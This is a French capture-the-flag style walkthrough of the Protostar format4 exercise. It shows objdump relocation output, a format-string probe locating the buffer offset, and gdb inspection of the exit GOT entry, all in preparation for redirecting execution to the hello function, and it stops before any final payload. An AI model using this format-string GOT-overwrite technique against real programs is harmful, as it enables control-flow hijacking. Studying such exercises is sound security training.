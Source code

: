## Level 4

Cette fois plus de variable à écraser, il faut faire exécuter une fonction `hello` présente dans le code. On a un indice consistant à faire afficher les relocations :

> objdump -TR is your friend

Seul la fonction `exit` est intéressante car appellée après la fonction `printf` vulnérable.

```bash
user@protostar:/opt/protostar/bin$ objdump -TR format4

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Donc `0x08049724` est l'adresse de `exit` dans la `GOT` et `0x080484b4` est l'adresse de `hello`. On trouve l'offset de notre buffer :

```bash
user@protostar:/opt/protostar/bin$ ./format4 
AAAA%4$08x
AAAA41414141
```

La bonne nouvelle c'est que l'adresse de `exit` dans la `GOT` commence déjà par `0x0804` qui est commun à l'adresse de `hello`. Il nous suffit d'écraser les deux octets de poids faible.

```
(gdb) x/wx 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2
```
